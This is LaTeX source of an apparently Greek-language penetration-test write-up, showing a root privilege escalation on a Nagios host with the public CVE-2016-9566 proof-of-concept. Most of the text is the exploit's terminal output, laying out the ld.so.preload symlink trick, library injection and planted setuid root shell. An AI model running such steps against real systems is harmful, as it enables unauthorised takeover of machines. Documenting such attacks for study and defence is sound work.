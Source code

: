 \documentclass[12pt]{report}
\begin{document}
\section{Επαύξηση Δικαιωμάτων}
Τοποθετούμε το \textlatin{session} που άνοιξε, στο υπόβαθρο. Στη συνέχεια αποκτούμε πρόσβαση υπερχρήστη, εκμεταλευόμενοι συγκεκριμένη αδυναμία του \textlatin{nagios}~\cite{exploit:02}. Για να το επιτύχουμε αυτό, τρέχουμε το \textlatin{bash script} του παραρτήματος~\ref{AppB}
\begin{scriptsize}
\begin{verbatim}
www-data@ubuntu:/usr/local/nagios/share$ cd /tmp
www-data@ubuntu:/tmp$ ./nagios-root-privesc.sh /usr/local/nagios/var/nagios.log
 
Nagios Core - Root Privilege Escalation PoC Exploit (CVE-2016-9566) 
nagios-root-privesc.sh (ver. 1.0)

Discovered and coded by: 

Dawid Golunski 
https://legalhackers.com 

[+] Starting the exploit as: 
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(nagios),1002(nagcmd)

[+] Compiling the privesc shared library (/tmp/nagios_privesc_lib.c)

[+] Backdoor/low-priv shell installed at: 
-rwxrwxrwx 1 root root 1029624 Dec 11 08:44 /tmp/nagiosrootsh

[+] The system appears to be exploitable (writable logdir) ! :) Symlink created at: 
lrwxrwxrwx 1 www-data nagios 18 Dec 11 08:44 /usr/local/nagios/var/nagios.log -> /etc/ld.so.preload

[+] Waiting for Nagios service to get restarted...
Do you want to shutdown the Nagios daemon to speed up the restart process? ;) [y/N] y

[+] Nagios stopped. Shouldn't take long now... ;)

[+] Nagios restarted. The /etc/ld.so.preload file got created with the privileges: 
-rw-r--r-- 1 nagios nagios 871 Dec 11 08:44 /etc/ld.so.preload

[+] Injecting /tmp/nagios_privesc_lib.so via the pipe nagios.cmd to bypass lack of write perm on ld.so.preload

[+] The /etc/ld.so.preload file now contains: 
[1481463869] Warning: Unrecognized external command -> NAGIOS_GIVE_ME_ROOT_NOW!;; /tmp/nagios_privesc_lib.so

[+] Triggering privesc code from /tmp/nagios_privesc_lib.so by executing /usr/bin/sudo SUID binary

[+] Rootshell got assigned root SUID perms at: 
-rwsrwxrwx 1 root root 1029624 Dec 11 08:44 /tmp/nagiosrootsh

Got root via Nagios!

[+] Nagios pwned. Spawning the rootshell /tmp/nagiosrootsh now

nagiosrootsh-4.3# 
\end{verbatim}
\end{scriptsize}
Οι παραπάνω εντολές μας δίνουν το \textlatin{shell} που αποκτήσαμε αρχικά, αλλά πλέον με δικαιώματα υπερχρήστη.
\end{document}
